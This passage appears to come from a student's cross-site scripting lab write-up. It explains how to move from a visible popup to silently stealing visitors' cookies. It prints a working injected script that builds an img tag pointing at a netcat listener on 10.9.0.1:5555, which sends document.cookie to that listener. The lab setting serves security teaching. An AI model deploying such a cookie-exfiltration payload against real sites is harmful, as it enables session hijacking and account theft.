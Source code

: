 Yet again, any user that loads this page will be met with the popup.

<img src="./images/10/5.png">

### Task 3

Because displaying the cookies to the user is not useful to us (it's beyond useless, since it actually warns the user that their cookies are under attack), we want to silently retrieve them. <br>
This can be achieved with a small piece of javascript code that creates a new `<img>` html element with its source pointing to a server we control, created using netcat: `<script>document.write(’<img src=http://10.9.0.1:5555?c=’+ escape(document.cookie) + ’ >’);</script>` <br>
When the browser tries to retrieve this image, it will send a GET request to our server with the cookie information attached.

<img src="./images/10/6.png">

